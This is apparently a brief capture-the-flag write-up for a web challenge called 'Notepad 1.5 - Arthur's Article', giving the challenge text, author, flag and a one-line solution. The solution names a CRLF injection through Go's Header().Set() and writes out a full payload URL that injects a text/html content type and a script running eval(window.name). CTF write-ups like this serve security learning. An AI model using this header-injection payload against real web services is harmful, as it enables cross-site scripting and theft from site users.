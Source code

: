 # Notepad 1.5 - Arthur's Article

### Challenge Description

Arthur Morgan was asked to retrieve an important article from Cornwall's computer. Help him steal it. 

### Challenge File
[Source](./Handout/arthursarticle.zip)

### Short Writeup

* Exploit CRLF in go's Header().Set() library to inject arbitrary html using the header name. 

* `http://chall.notepad15.gq/find?startsWith=asd&debug=2&A:asd%0AContent-Type:text/html%0A%0A%3Chtml%3E%3Cscript%3Eeval(window.name)%3C/script%3E`


### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{red_dead_rezoday_ialmvwoawpwe}`
